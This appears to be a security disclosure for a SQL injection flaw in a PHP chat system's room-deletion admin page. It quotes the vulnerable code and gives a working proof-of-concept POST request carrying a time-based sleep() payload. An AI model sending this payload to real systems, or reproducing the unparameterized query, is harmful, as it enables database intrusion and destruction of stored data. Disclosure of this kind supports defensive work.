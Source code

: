 # chat system has sql injection in /admin/deleteroom.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/admin/deleteroom.php



## describe



Because the id parameter is not sanitized or parameterized, an attacker can inject malicious SQL code to manipulate the database query. By leveraging time-based SQL injection techniques, an attacker can induce deliberate delays in the database response using functions like SLEEP(). This can be used to confirm the presence of the vulnerability and potentially extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('../conn.php');
	
	if (isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `chatroom` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat_member` where chatroomid='$id'");
	}
?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /admin/deleteroom.php HTTP/1.1
Host: 127.0.0.1:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 24
Origin: http://127.0.0.1:7777
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:7777/admin/
Cookie: PHPSESSID=qua31ea51oa01tdbtr5cqapm4v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=4' or sleep(5)#&del=1
```



Send this request, you can observe an additional 30-second (5 * 3 * 2) time delay triggered by the time-based injection.



**part1**



![part1-1](../assest/chatsystem/sql-2/part1-1.png)



![part1-2](../assest/chatsystem/sql-2/part1-2.png)





**part2**

![part2-1](../assest/chatsystem/sql-2/part2-1.png)



![part2-2](../assest/chatsystem/sql-2/part2-2.png)
